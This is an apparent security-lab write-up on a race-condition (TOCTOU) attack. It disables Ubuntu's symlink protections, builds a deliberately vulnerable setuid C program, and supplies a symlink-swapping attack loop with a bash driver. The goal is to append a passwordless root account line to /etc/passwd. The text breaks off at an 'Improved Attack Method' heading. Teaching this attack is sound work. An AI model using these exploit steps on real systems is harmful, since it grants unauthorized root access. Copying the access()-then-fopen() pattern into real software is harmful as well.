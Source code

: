 # Lab 1 - Race Condition

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place.

## Turning Off Countermeasures

To turn off race condition protections, in order to guarantee that the attack will be possible. In Ubuntu 20.04:

```bash
$ sudo sysctl -w fs.protected_symlinks=0
$ sudo sysctl fs.protected_regular=0
```

## Writing a vulnerable program

Vulp.c program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {        // A
        fp = fopen(fn, "a+");       // B
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

Internally, the verification in `A` will be in terms of the **Real UID** (current user ID), and `B` using the **Effective UID** (temporary ID, ). The goal of this attack is to gain root privileges by exploring the race vulnerability. If we change the meaning of the `tmp/XYZ` file between this two instructions (due to non-atomic operations), using for instance UNIX symbolic link (symblink), we could access the `etc/passwd` file content and write stuff.

To compile/run this vulnerable program:

```bash
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

## Choosing Our Target

We want to append one more line in `etc/passwd` file:

```note
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

- "test" will be our new username;
- "U6aMy0wojraho" guarantees that we don't need to fill the password field;
- "0" id, as the third argument, implicitly guarantees root privileges on this new user;

With this line, we can gain access to the machine using a root user.

## The Real Attack

race.c, the attack program:

```c
#include <unistd.h>
int main() {
	while(1) {
		unlink("/tmp/XYZ");
		symlink("/etc/passwd","/tmp/XYZ");
	}
	return 0;
}
```

To run and monitoring the attack, we'll use this bash script:

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]          # Check if /etc/passwd is modified
do
    echo "your input" | ./vulp      # Run the vulnerable program
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

We can run both programs in parallel in order to catch the expected result. 

## Improved Attack Method